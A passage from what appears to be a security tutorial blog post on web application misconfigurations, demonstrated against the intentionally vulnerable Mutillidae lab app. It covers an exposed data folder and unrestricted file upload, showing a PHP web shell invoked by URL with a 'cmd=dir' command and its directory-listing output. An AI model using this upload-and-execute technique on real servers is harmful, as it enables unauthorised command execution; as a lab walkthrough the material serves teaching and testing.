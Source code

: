 Or *data* folder:

![data](/images/2015/02/03/data.png)

Another common misconfiguration is unrestricted file upload. Most of the time files containing executable code (php, asp, js, etc.) are not allowed. However, if restrictions are implemented badly or not present at all, then attacker 
can execute code on the server via file upload:

![upload](/images/2015/02/03/upload.png)

After uploading the shell, we can browse to it and execute commands on the server:

`http://192.168.1.66/mutillidae/upload/shell.php?cmd=dir`

{{<codecaption lang="text" title="Command Execution">}}
Volume in drive C has no label. Volume Serial Number is E2B8-4C80 Directory of C:\xampp\htdocs\mutillidae\upload 02/05/2015 11:24 AM
. 02/05/2015 11:24 AM
.. 02/05/2015 11:05 AM 132 shell.php 1 File(s) 132 bytes 2 Dir(s) 12,596,895,744 bytes free dir
{{</codecaption>}}

### To be continued...


